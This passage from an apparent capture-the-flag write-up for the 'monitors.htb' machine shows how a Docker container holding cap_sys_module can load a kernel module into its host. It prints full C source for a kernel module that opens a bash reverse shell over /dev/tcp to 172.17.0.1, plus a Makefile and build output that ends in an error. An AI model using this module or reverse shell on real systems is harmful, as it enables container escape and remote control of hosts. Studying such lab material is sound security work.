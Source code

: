   root@b19c764b5ef0:/usr/src/apache-ofbiz-17.12.01# capsh --print
    Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
    Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
    Securebits: 00/0x0/1'b0
     secure-noroot: no (unlocked)
     secure-no-suid-fixup: no (unlocked)
     secure-keep-caps: no (unlocked)
    uid=0(root)
    gid=0(root)
    groups=

We see that our docker has 'cap_sys_module', as a result the container can insert/remove kernel modules in/from the kernel of
the docker host machine - aka monitors.htb.

Follow the steps to create a reverse shell using usermode Helper API.
NOTE: Change IP to 172.17.0.1 (docker0 interface of monitors.htb) and port to whatever you like.

  root@8b08538ad9e7:/tmp# cat reverse-shell.c
    #include <linux/kmod.h>
    #include <linux/module.h>
    MODULE_LICENSE("GPL");
    MODULE_AUTHOR("AttackDefense");
    MODULE_DESCRIPTION("LKM reverse shell module");
    MODULE_VERSION("1.0");
    char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/4488 0>&1", NULL};
    static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
    static int __init reverse_shell_init(void) {
    	return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    }
    static void __exit reverse_shell_exit(void) {
    	printk(KERN_INFO "Exiting\n");
    }
    module_init(reverse_shell_init);
    module_exit(reverse_shell_exit);

Create the Makefile;
  root@8b08538ad9e7:/tmp# cat Makefile
    obj-m +=reverse-shell.o
    all:
    		make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
    clean:
    		make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

Next we make the kernel module;
  root@8b08538ad9e7:/tmp/rev# make
    make -C /lib/modules/4.15.0-142-generic/build M=/tmp/rev modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
      CC [M]  /tmp/rev/reverse-shell.o
    gcc: error trying to exec 'cc1': execvp: No such file or directory
    make[2]: *** [scripts/Makefile.build:339: /tmp/rev/reverse-shell.o] Error 1
    make[1]: *** [Makefile:1584: _module_/tmp/rev] Error 2
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
    make: *** [Makefile:3: all] Error 2
